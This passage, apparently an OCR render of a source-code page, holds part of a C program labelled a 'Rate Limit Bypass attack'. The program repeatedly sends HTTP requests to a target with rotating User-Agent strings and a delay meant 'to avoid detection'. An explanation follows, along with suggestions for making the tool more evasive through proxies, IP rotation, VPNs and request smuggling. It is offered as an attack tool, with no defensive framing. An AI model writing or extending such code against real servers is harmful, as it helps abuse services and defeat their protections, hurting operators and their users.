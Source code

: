 ```c
    target_addr.sin_addr.s_addr = inet_addr(TARGET_IP);
    target_addr.sin_port = htons(TARGET_PORT);

    // Connect to the target
    if (connect(sockfd, (struct sockaddr *)&target_addr, sizeof(target_addr)) < 0) {
        perror("Error connecting to target");
        exit(EXIT_FAILURE);
    }

    // Send a large number of requests
    for (int i = 0; i < NUM_REQUESTS; i++) {
        // Craft and send the HTTP request
        char request[1024];
        sprintf(request, "GET / HTTP/1.1\r\nHost: example.com\r\nUser-Agent: Bot %d\r\n\r\n", i);
        if (send(sockfd, request, strlen(request), 0) < 0) {
            perror("Error sending request");
            exit(EXIT_FAILURE);
        }
        usleep(10000); // Delay between requests to avoid detection
    }

    // Close the socket
    close(sockfd);
}

int main() {
    printf("Starting Rate Limit Bypass attack...\n");

    // Perform the Rate Limit Bypass attack
    perform_bypass();

    printf("Rate Limit Bypass attack completed.\n");

    return 0;
}
```

#### Explanation:

- The `perform_bypass` function creates a TCP socket and connects to the target IP address and port. It then sends a large number of HTTP requests with different user agents to evade rate limiting measures.
- A delay is introduced between requests using the `usleep` function to avoid detection by rate limiting mechanisms.
- In this example, we use a hardcoded target IP address (`127.0.0.1`) and port (`80`). Replace these values with the target server's IP address and port.

#### Further Development:

To make this tool more effective and versatile, you can enhance it with the following features:

- Support for rotating IP addresses or using proxies to further evade rate limiting mechanisms.
- Integration with a proxy server or VPN to distribute requests across multiple IP addresses.
- Implementation of techniques such as session reuse or request smuggling to bypass more advanced rate limiting measures.
